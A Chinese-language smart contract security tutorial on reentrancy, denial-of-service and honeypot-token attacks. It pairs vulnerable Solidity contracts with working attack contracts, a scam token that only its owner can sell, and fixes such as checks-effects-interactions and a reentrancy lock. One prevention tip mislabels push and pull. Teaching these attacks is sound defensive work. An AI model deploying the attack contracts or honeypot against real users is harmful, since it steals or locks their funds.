

# 合约安全

> 来源：[https://docs.feishu.cn/docx/VNXYdlquFoRRVlxu0yWcsd1un1O](https://docs.feishu.cn/docx/VNXYdlquFoRRVlxu0yWcsd1un1O)

# S01_ReentrancyAttack

这一讲，我们将介绍最常见的一种智能合约攻击-重入攻击，它曾导致以太坊分叉为 ETH 和 ETC（以太经典），并介绍如何避免它。

## **重入攻击**

重入攻击是智能合约中最常见的一种攻击，攻击者通过合约漏洞（例如fallback函数）循环调用合约，将合约中资产转走或铸造大量代币。

一些著名的重入攻击事件：

+   2016年，The DAO合约被重入攻击，黑客盗走了合约中的 3,600,000 枚 ETH，并导致以太坊分叉为 ETH 链和 ETC（以太经典）链。

+   2019年，合成资产平台 Synthetix 遭受重入攻击，被盗 3,700,000 枚 sETH。

+   2020年，借贷平台 Lendf.me 遭受重入攻击，被盗 $25,000,000。

+   2021年，借贷平台 CREAM FINANCE 遭受重入攻击，被盗 $18,800,000。

+   2022年，算法稳定币项目 Fei 遭受重入攻击，被盗 $80,000,000。

距离 The DAO 被重入攻击已经6年了，但每年还是会有几次因重入漏洞而损失千万美元的项目，因此理解这个漏洞非常重要。

## **0xAA**** 抢银行的故事**

为了让大家更好理解，这里给大家讲一个"黑客0xAA抢银行"的故事。

以太坊银行的柜员都是机器人（Robot），由智能合约控制。当正常用户（User）来银行取钱时，它的服务流程：

1.  查询用户的 ETH 余额，如果大于0，进行下一步。

1.  将用户的 ETH 余额从银行转给用户，并询问用户是否收到。

1.  将用户名下的余额更新为0。

一天黑客 0xAA 来到了银行，这是他和机器人柜员的对话：

+   0xAA : 我要取钱，1 ETH。

+   Robot: 正在查询您的余额：1 ETH。正在转帐1 ETH到您的账户。您收到钱了吗？

+   0xAA : 等等，我要取钱，1 ETH。

+   Robot: 正在查询您的余额：1 ETH。正在转帐1 ETH到您的账户。您收到钱了吗？

+   0xAA : 等等，我要取钱，1 ETH。

+   Robot: 正在查询您的余额：1 ETH。正在转帐1 ETH到您的账户。您收到钱了吗？

+   0xAA : 等等，我要取钱，1 ETH。

+   ...

最后，0xAA通过重入攻击的漏洞，把银行的资产搬空了，银行卒。

## **漏洞合约例子**

### **银行合约**

银行合约非常简单，包含1个状态变量balanceOf记录所有用户的以太坊余额；包含3个函数：

+   deposit()：存款函数，将ETH存入银行合约，并更新用户的余额。

+   withdraw()：提款函数，将调用者的余额转给它。具体步骤和上**面故事中一样：查询余额，转**账，更新余额。注意：这个函数有重入漏洞！

+   getBalance()：获取银行合约里的ETH余额。

```
 contract Bank {
     mapping (address =&gt; uint256) public balanceOf;    // 余额mapping
 
     // 存入ether，并更新余额
     function deposit() external payable {
         balanceOf[msg.sender] += msg.value;
     }
 
     // 提取msg.sender的全部ether
     function withdraw() external {
         uint256 balance = balanceOf[msg.sender]; // 获取余额
         require(balance &gt; 0, &quot;Insufficient balance&quot;);
         // 转账 ether !!! 可能激活恶意合约的fallback/receive函数，有重入风险！
         (bool success, ) = msg.sender.call{value: balance}(&quot;&quot;);
         require(success, &quot;Failed to send Ether&quot;);
         // 更新余额
         balanceOf[msg.sender] = 0;
     }
 
     // 获取银行合约的余额
     function getBalance() external view returns (uint256) {
         return address(this).balance;
     }
 }
```

### **攻击合约**

重入攻击的一个攻击点就是合约转账ETH的地方：转账ETH的目标地址如果是合约，会触发对方合约的fallback（回退）函数，从而造成循环调用的可能。如果你不了解回退函数，可以阅读WTF Solidity极简教程第19讲：接收ETH。Bank合约在withdraw()函数中存在ETH转账：

```
(bool success, ) = msg.sender.call{value: balance}(&quot;&quot;);
```

假如黑客在攻击合约中的fallback()或receive()函数中重新调用了Bank合约的withdraw()函数，就会造成0xAA抢银行故事中的循环调用，不断让Bank合约转账给攻击者，最终将合约的ETH提空。

```
    receive() external payable {
         bank.withdraw();
     }
```

下面我们看下攻击合约，它的逻辑非常简单，就是通过receive()回退函数循环调用Bank合约的withdraw()函数。它有1个状态变量bank用于记录Bank合约地址。它包含4个函数：

+   构造函数: 初始化Bank合约地址。

+   receive(): 回调函数，在接收ETH时被触发，并再次调用Bank合约的withdraw()函数，循环提款。

+   attack()：攻击函数，先Bank合约的deposit()函数存款，然后调用withdraw()发起第一次提款，之后Bank合约的withdraw()函数和攻击合约的receive()函数会循环调用，将Bank合约的ETH提空。

+   getBalance()：获取攻击合约里的ETH余额。

```
 contract Attack {
     Bank public bank; // Bank合约地址
 
     // 初始化Bank合约地址
     constructor(Bank _bank) {
         bank = _bank;
     }
     
     // 回调函数，用于重入攻击Bank合约，反复的调用目标的withdraw函数
     receive() external payable {
         if (bank.getBalance() &gt;= 1 ether) {
             bank.withdraw();
         }
     }
 
     // 攻击函数，调用时 msg.value 设为 1 ether
     function attack() external payable {
         require(msg.value == 1 ether, &quot;Require 1 Ether to attack&quot;);
         bank.deposit{value: 1 ether}();
         bank.withdraw();
     }
 
     // 获取本合约的余额
     function getBalance() external view returns (uint256) {
         return address(this).balance;
     }
 }
```

## **Remix****演示**

1.  部署Bank合约，调用deposit()函数，转入20 ETH。

1.  切换到攻击者钱包，部署Attack合约。

1.  调用Atack合约的attack()函数发动攻击，调用时需转账1 ETH。

1.  调用Bank合约的getBalance()函数，发现余额已被提空。

1.  调用Attack合约的getBalance()函数，可以看到余额变为21 ETH，重入攻击成功。

## **预防办法**

目前主要有两种办法来预防可能的重入攻击漏洞： 检查-影响-交互模式（checks-effect-interaction）和重入锁。

### **检查-影响-交互模式**

检查-影响-交互模式强调编写函数时，要先检查状态变量是否符合要求，紧接着更新状态变量（例如余额），最后再和别的合约交互。如果我们将Bank合约withdraw()函数中的更新余额提前到转账ETH之前，就可以修复漏洞：

```
 function withdraw() external {
     uint256 balance = balanceOf[msg.sender];
     require(balance &gt; 0, &quot;Insufficient balance&quot;);
     // 检查-效果-交互模式（checks-effect-interaction）：先更新余额变化，再发送ETH
     // 重入攻击的时候，balanceOf[msg.sender]已经被更新为0了，不能通过上面的检查。
     balanceOf[msg.sender] = 0;
     (bool success, ) = msg.sender.call{value: balance}(&quot;&quot;);
     require(success, &quot;Failed to send Ether&quot;);
 }
```

### **重入锁**

重入锁是一种防止重入函数的修饰器（modifier），它包含一个默认为0的状态变量_status。被nonReentrant重入锁修饰的函数，在第一次调用时会检查_status是否为0，紧接着将_status的值改为1，调用结束后才会再改为0。这样，当攻击合约在调用结束前第二次的调用就会报错，重入攻击失败。如果你不了解修饰器，可以阅读WTF Solidity极简教程第11讲：修饰器。

```
 uint256 private _status; // 重入锁
 
 // 重入锁
 modifier nonReentrant() {
     // 在第一次调用 nonReentrant 时，_status 将是 0
     require(_status == 0, &quot;ReentrancyGuard: reentrant call&quot;);
     // 在此之后对 nonReentrant 的任何调用都将失败
     _status = 1;
     _;
     // 调用结束，将 _status 恢复为0
     _status = 0;
 }
```

只需要用nonReentrant重入锁修饰withdraw()函数，就可以预防重入攻击了。

```
 // 用重入锁保护有漏洞的函数
 function withdraw() external nonReentrant{
     uint256 balance = balanceOf[msg.sender];
     require(balance &gt; 0, &quot;Insufficient balance&quot;);
 
     (bool success, ) = msg.sender.call{value: balance}(&quot;&quot;);
     require(success, &quot;Failed to send Ether&quot;);
 
     balanceOf[msg.sender] = 0;
 }
```

# S09_DDos

这一讲，我们将介绍智能合约的拒绝服务（Denial of Service, DoS）漏洞，并介绍预防的方法。NFT 项目 Akutar 曾因为 DoS 漏洞损失 11,539 ETH，当时价值 3400 万美元。

## **DoS**

在 Web2 中，拒绝服务攻击（DoS）是指通过向服务器发送大量垃圾信息或干扰信息的方式，导致服务器无法向正常用户提供服务的现象。而在 Web3，它指的是利用漏洞使得智能合约无法正常提供服务。

在 2022 年 4 月，一个很火的 [NFT ](https://github.com/AmazingAng/WTF-Solidity/tree/main/35_DutchAuction)项目名为 Akutar，他们使用荷兰拍卖进行公开发行，筹集了 11,539.5 ETH，非常成功。之前持有他们社区 Pass 的参与者会得到 0.5 ETH 的退款，但是他们处理退款的时候，发现智能合约不能正常运行，全部资金被永远锁在了合约里。他们的智能合约有拒绝服务漏洞。

## **漏洞例子**

下面我们学习一个简化了的 Akutar 合约，名字叫 DoSGame。这个合约逻辑很简单，游戏开始时，玩家们调用 deposit() 函数往合约里存款，合约会记录下所有玩家地址和相应的存款；当游戏结束时，refund()函数被调用，将 ETH 依次退款给所有玩家。

```
 // SPDX-License-Identifier: MIT
 pragma solidity ^0.8.4;
 
 // 有DoS漏洞的游戏，玩家们先存钱，游戏结束后，调用refund退钱。
 contract DoSGame {
     bool public refundFinished;
     mapping(address =&gt; uint256) public balanceOf;
     address[] public players;
 
     // 所有玩家存ETH到合约里
     function deposit() external payable {
         require(!refundFinished, &quot;Game Over&quot;);
         require(msg.value &gt; 0, &quot;Please donate ETH&quot;);
         // 记录存款
         balanceOf[msg.sender] = msg.value;
         // 记录玩家地址
         players.push(msg.sender);
     }
 
     // 游戏结束，退款开始，所有玩家将依次收到退款
     function refund() external {
         require(!refundFinished, &quot;Game Over&quot;);
         uint256 pLength = players.length;
         // 通过循环给所有玩家退款
         for(uint256 i; i &lt; pLength; i++){
             address player = players[i];
             uint256 refundETH = balanceOf[player];
             (bool success, ) = player.call{value: refundETH}(&quot;&quot;);
             require(success, &quot;Refund Fail!&quot;);
             balanceOf[player] = 0;
         }
         refundFinished = true;
     }
 
     function balance() external view returns(uint256){
         return address(this).balance;
     }
 }
```

这里的漏洞在于，refund() 函数中利用循环退款的时候，是使用的 call 函数，将激活目标地址的回调函数，如果目标地址为一个恶意合约，在回调函数中加入了恶意逻辑，退款将不能正常进行。

```
 (bool success, ) = player.call{value: refundETH}(&quot;&quot;);
```

下面我们写个攻击合约， attack() 函数中将调用 DoSGame 合约的 deposit() 存款并参与游戏；fallback() 回调函数将回退所有向该合约发送ETH的交易，对DoSGame 合约中的 DoS 漏洞进行了攻击，所有退款将不能正常进行，资金被锁在合约中，就像 Akutar 合约中的一万多枚 ETH 一样。

```
contract Attack {
     // 退款时进行DoS攻击
     fallback() external payable{
         revert(&quot;DoS Attack!&quot;);
     }
 
     // 参与DoS游戏并存款
     function attack(address gameAddr) external payable {
         DoSGame dos = DoSGame(gameAddr);
         dos.deposit{value: msg.value}();
     }
 }
```

## **预防方法**

很多逻辑错误都可能导致智能合约拒绝服务，所以开发者在写智能合约时要万分谨慎。以下是一些需要特别注意的地方：

1.  外部合约的函数调用（例如 call）失败时不会使得重要功能卡死，比如将上面漏洞合约中的 require(success, "Refund Fail!"); 去掉，退款在单个地址失败时仍能继续运行。

1.  合约不会出乎意料的自毁。

1.  合约不会进入无限循环。

1.  require 和 assert 的参数设定正确。

1.  退款时，让用户从合约自行领取（push），而非批量发送给用户(pull)。

1.  确保回调函数不会影响正常合约运行。

1.  确保当合约的参与者（例如 owner）永远缺席时，合约的主要业务仍能顺利运行。

# S10_Honeypot

这一讲，我们将介绍貔貅合约和预防方法（英文习惯叫蜜罐代币 honeypot token）。

## **貔貅学入门**

[貔貅](https://en.wikipedia.org/wiki/Pixiu)是中国的一个神兽，因为在天庭犯了戒，被玉帝揍的肛门封闭了，只能吃不能拉，可以帮人们聚财。但在Web3中，貔貅变为了不详之兽，韭菜的天敌。貔貅盘的特点：投资人只能买不能卖，仅有项目方地址能卖出。

通常一个貔貅盘有如下的生命周期：

1.  恶意项目方部署貔貅代币合约。

1.  宣传貔貅代币让散户上车，由于只能买不能卖，代币价格会一路走高。

1.  项目方rug pull卷走资金。

学会貔貅合约的原理，才能更好的识别并避免被割，才能做一个顽强的韭菜！

## **貔貅合约**

这里我们介绍一个极简的ERC20代币貔貅合约Pixiu。在该合约中，只有合约拥有者可以在uniswap出售代币，其他地址不能。

Pixiu 有一个状态变量pair，用于记录uniswap中 Pixiu-ETH LP的币对地址。它主要有三个函数：

1.  构造函数：初始化代币的名称和代号，并根据 uniswap 和 create2 的原理计算LP合约地址，具体内容可以参考 WTF Solidity 第25讲: Create2。这个地址会在 _beforeTokenTransfer() 函数中用到。

1.  mint()：铸造函数，仅 owner 地址可以调用，用于铸造 Pixiu 代币。

1.  _beforeTokenTransfer()：ERC20代币在被转账前会调用的函数。在其中，我们限制了当转账的目标地址 to 为 LP 的时候，也就是韭菜卖出的时候，交易会 revert；只有调用者为owner的时候能够成功。这也是貔貅合约的核心。

```
 // 极简貔貅ERC20代币，只能买，不能卖
 contract HoneyPot is ERC20, Ownable {
     address public pair;
 
     // 构造函数：初始化代币名称和代号
     constructor() ERC20(&quot;HoneyPot&quot;, &quot;Pi Xiu&quot;) {
         address factory = 0x5C69bEe701ef814a2B6a3EDD4B1652CB9cc5aA6f; // goerli uniswap v2 factory
         address tokenA = address(this); // 貔貅代币地址
         address tokenB = 0xB4FBF271143F4FBf7B91A5ded31805e42b2208d6; //  goerli WETH
         (address token0, address token1) = tokenA &lt; tokenB ? (tokenA, tokenB) : (tokenB, tokenA); //将tokenA和tokenB按大小排序
         bytes32 salt = keccak256(abi.encodePacked(token0, token1));
         // calculate pair address
         pair = address(uint160(uint(keccak256(abi.encodePacked(
         hex&#x27;ff&#x27;,
         factory,
         salt,
         hex&#x27;96e8ac4277198ff8b6f785478aa9a39f403cb768dd02cbee326c3e7da348845f&#x27;
         )))));
     }
     
     /**
      * 铸造函数，只有合约所有者可以调用
      */
     function mint(address to, uint amount) public onlyOwner {
         _mint(to, amount);
     }
 
     /**
      * @dev See {ERC20-_beforeTokenTransfer}.
      * 貔貅函数：只有合约拥有者可以卖出
      */
     function _beforeTokenTransfer(
         address from,
         address to,
         uint256 amount
     ) internal virtual override {
         super._beforeTokenTransfer(from, to, amount);
         // 当转账的目标地址为 LP 时，会revert
         if(to == pair){
             require(from == owner(), &quot;Can not Transfer&quot;);
         }
     }
 }
```

## **预防方法**

貔貅币是韭菜在链上梭哈最容易遇到的骗局，并且形式多变，预防非常有难度。我们有以下几点建议，可以降低被貔貅盘割韭菜的风险：

1.  在区块链浏览器上（比如[etherscan](https://etherscan.io/)）查看合约是否开源，如果开源，则分析它的代码，看是否有貔貅漏洞。

1.  [如果没有编程能力，可以使用](https://tokensniffer.com/)貔貅识[别工具，比如 To](https://ave.ai/check)ken Sniffer 和 Ave Check，分低的话大概率是貔貅。

1.  看项目是否有审计报告。

1.  仔细检查项目的官网和社交媒体。

1.  只投资你了解的项目，做好研究（DYOR）。

# S11_Frontrun



[readme.pdf](https://internal-api-drive-stream.feishu.cn/space/api/box/stream/download/all/Ed57bI6Iao4KzExiaAoczRpPnAb)